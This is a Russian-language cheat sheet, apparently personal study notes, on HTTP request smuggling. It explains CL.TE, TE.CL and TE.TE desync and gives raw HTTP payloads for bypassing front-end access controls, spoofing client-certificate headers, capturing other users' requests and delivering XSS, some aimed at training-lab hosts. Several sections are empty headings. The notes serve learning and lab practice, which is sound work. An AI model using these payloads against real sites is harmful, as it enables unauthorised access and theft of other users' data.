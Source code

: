 ### **Http_request_smuggling**
* **Описание**
Контрабанда HTTP-запросов — это метод вмешательства в процесс обработки веб-сайтом последовательностей HTTP-запросов, полученных от одного или нескольких пользователей. Уязвимости контрабанды запросов часто имеют критический характер, позволяя злоумышленнику обходить средства безопасности, получать несанкционированный доступ к конфиденциальным данным и напрямую скомпрометировать других пользователей приложения.

* **Как возникают уязвимости**
Современные веб-приложения часто используют цепочки HTTP-серверов между пользователями и конечной логикой приложения. Пользователи отправляют запросы на сервер front-end (иногда называемый балансировщиком нагрузки или обратным прокси-сервером), а этот сервер пересылает запросы на один или несколько серверов back-end. Этот тип архитектуры становится все более распространенным, а в некоторых случаях и неизбежным в современных облачных приложениях.
Большинство уязвимостей контрабанды HTTP-запросов возникают из-за того, что спецификация HTTP/1 предоставляет два разных способа указать, где заканчивается запрос: заголовок Content-Length и заголовок Transfer-Encoding.

* **Виды**
1. Классические
Эти методы возможны только с использованием HTTP/1-запросов. При тестировании сайтов с поддержкой HTTP/2 вам необходимо вручную переключать протоколы в Burp Repeater.
Включают размещение заголовков Content-Length и Transfer-Encoding в одном HTTP/1-запросе и манипулирование ими таким образом, чтобы front-end и back-end-серверы обрабатывали запрос по-разному. Точный способ, которым это делается, зависит от поведения двух серверов:
+ CL.TE: front-end-сервер использует заголовок Content-Length, а back-end-сервер использует заголовок Transfer-Encoding.
Transfer-Encoding: chunked
0
G
+ TE.CL: front-end-сервер использует заголовок Transfer-Encoding, а back-end-сервер использует заголовок Content-Length.
Сначала нужно будет перейти в меню Repeater и убедиться, что опция «Обновить длину содержимого» не отмечена.
Нужно включить завершающую последовательность \r\n\r\n после последнего 0.
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
+ TE.TE: front-end- и back-end-серверы поддерживают заголовок Transfer-Encoding, но один из серверов можно заставить не обрабатывать его, запутав заголовок каким-либо образом.
Здесь и фронтенд, и бэкенд-серверы поддерживают заголовок Transfer-Encoding, но один из серверов можно заставить не обрабатывать его, каким-либо образом обфускировав заголовок.
Существует потенциально бесконечное количество способов обфускации заголовка Transfer-Encoding. Например:
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
2. подмены HTTP-запросов для обхода элементов управления безопасностью на стороне клиента
предположим, что приложение использует сервер на стороне клиента для реализации ограничений контроля доступа, пересылая запросы только в том случае, если пользователь имеет право доступа к запрошенному URL-адресу. Затем внутренний сервер принимает каждый запрос без дальнейшей проверки. В этой ситуации уязвимость подмены HTTP-запросов может быть использована для обхода элементов управления доступом путем подмены запроса на ограниченный URL-адрес.
3. Перезаписи запросов front-end
еобходимо выполнить следующие шаги:
* Найти запрос POST, который отражает значение параметра запроса в ответе приложения.
* Перетасовать параметры так, чтобы отраженный параметр оказался последним в теле сообщения.
* Передать этот запрос контрабандой на сервер back-end, а затем сразу обычный запрос, переписанную форму которого вы хотите раскрыть.
4. Обход аутентификации клиента
Некоторые сайты идут на шаг дальше и реализуют форму взаимной аутентификации TLS, где клиенты также должны предоставить сертификат серверу. В этом случае CN клиента часто является именем пользователя или чем-то подобным, что может использоваться в логике внутреннего приложения как часть механизма контроля доступа, например.
Компонент, который аутентифицирует клиента, обычно передает соответствующие данные из сертификата в приложение или внутренний сервер через один или несколько нестандартных заголовков HTTP. Например, фронтенд-серверы иногда добавляют заголовок, содержащий CN клиента, к любым входящим запросам:
GET /admin HTTP/1.1
Хост: normal-website.com
X-SSL-CLIENT-CN: carlos
5. Захват запросов других пользователей
Подходящими функциями для использования в качестве средства для этой атаки будут комментарии(перетасуйте параметры тела так, чтобы параметр comment оказался последним, и убедитесь, что он все еще работает), электронные письма, описания профилей, имена экранов и т. д.
Вы перешлете эквивалентный запрос с слишком длинным заголовком Content-Length и параметром комментария, расположенным в конец запроса, тело будет длиной 400 байт, но мы отправили только 144 байта. В этом случае внутренний сервер будет ждать оставшиеся 256 байт, прежде чем выдать ответ, или же выдаст тайм-аут, если он не придет достаточно быстро. В результате, когда другой запрос отправляется на внутренний сервер по тому же соединению, первые 256 байт фактически добавляются к контрабандному запросу
Чтобы захватить больше запроса жертвы, вам просто нужно соответственно увеличить значение заголовка Content-Length контрабандного запроса, но учтите, что это потребует определенного количества проб и ошибок. Если вы столкнетесь с тайм-аутом, это, вероятно, означает, что указанный вами Content-Length больше фактической длины запроса жертвы. В этом случае просто уменьшите значение, пока атака не сработает снова.
Захватывает данные только до разделителя параметров, который применим к контрабандному запросу. Для отправленных форм с кодировкой URL это будет символ &, что означает, что содержимое, сохраненное из запроса пользователя-жертвы, будет заканчиваться на первом &, который может даже появиться в строке запроса.
6. Использование контрабанды HTTP-запросов для эксплуатации отраженного XSS
Его можно использовать для эксплуатации поведения XSS в частях запроса, которые нельзя тривиально контролировать в обычной атаке отраженного XSS, например, в заголовках HTTP-запросов.
Например, предположим, что приложение имеет отраженную уязвимость XSS в заголовке User-Agent. Вы можете использовать это в атаке контрафактного запроса следующим образом:
POST / HTTP/1.1
Host: affected-website.com
Content-Length: 63
Transfer-Encoding: chunked
0
GET / HTTP/1.1
User-Agent: <script>alert(1)</script>
7. Использование контрафактного HTTP-запроса для превращения внутреннего перенаправления в открытое перенаправление
Многие приложения выполняют внутренние перенаправления с одного URL на другой и помещают имя хоста из заголовка Host запроса в URL перенаправления. Примером этого является поведение по умолчанию веб-серверов Apache и IIS, где запрос на папку без завершающего слеша получает перенаправление в ту же папку, включая завершающий слеш:
GET /home HTTP/1.1
Host: normal-website.com
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
8. Использование контрабанды HTTP-запросов для выполнения атаки отравления веб-кэша
9. 
10. Понижение версии HTTP/2

* **POC**
1. 	С использованием методов синхронизации
* CL.TE:
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
* TE.CL
Transfer-Encoding: chunked
Content-Length: 6

0

X\r\n
2.	С использованием дифференциальных ответов
* CL.TE
Включает отправку двух запросов приложению в быстрой последовательности:
Запрос «атаки», который предназначен для вмешательства в обработку следующего запроса.-->«Обычный» запрос.
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
* TE.CL
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

3. 	Использование подмены HTTP-запросов для обхода элементов управления безопасностью на стороне клиента
+ CL.TE
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
+ TE.CL
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
4. Выявление перезаписи запросов front-end
POST / HTTP/1.1
Host: 0ab3004f034bd37182a633510074000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-SgfOsS-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 20
Connection: close

x=
5. Обход аутентификации клиента
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 64
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SSL-CLIENT-CN: administrator
Foo: x

----------------Профит
----------------Защита
----------------Обход защиты

